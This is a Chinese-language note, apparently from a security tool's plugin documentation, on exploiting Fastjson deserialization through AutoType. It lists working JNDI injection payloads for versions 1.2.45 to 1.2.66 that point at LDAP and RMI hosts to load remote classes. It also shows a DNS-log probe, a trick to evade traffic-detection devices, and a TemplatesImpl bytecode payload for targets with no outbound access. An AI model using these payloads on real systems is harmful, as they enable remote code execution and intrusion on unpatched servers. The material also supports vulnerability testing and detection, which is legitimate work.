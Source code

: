 所以可以用下面方式绕过一些流量检测设备    
`{"@type":"java$net$Inet4Address","val":"xxx.dnslog.cn"}`

在1.2.48版本中，默认关闭缓存，而且java.lang.Class和java.net.InetAddress也被加进了黑名单
所以1.2.48后的版本利用前提是需要开启AutoType，而且存在某个不在黑名单中的第三方库可以利用，这个gadget就很多了

下面是我在网上收集的几个高版本payload

1.2.45

```JSON
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1399/Exploit"}}
``` 

1.2.62

```JSON
{
   "@type":"org.apache.xbean.propertyeditor.JndiConverter",
   "AsText":"rmi://{{interactsh-url}}/exploit"
}
```

1.2.66

```JSON
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}

{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}

{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1399/Calc"}}
```

不出网的利用

```C#
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
org.apache.tomcat.dbcp.dbcp2.BasicDataSource
例：
{
    "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes":["<base64编码的bytecodes>"],
    "_name":"c",
    "_tfactory":{},
    "outputProperties":{}
}
```

**注：测试时发现有时在解析json前会判断类型是否匹配，匹配失败则在解析前抛出异常。所以需要将payload改造一下，如`{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}`改为`{"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}`**

## yak插件实现
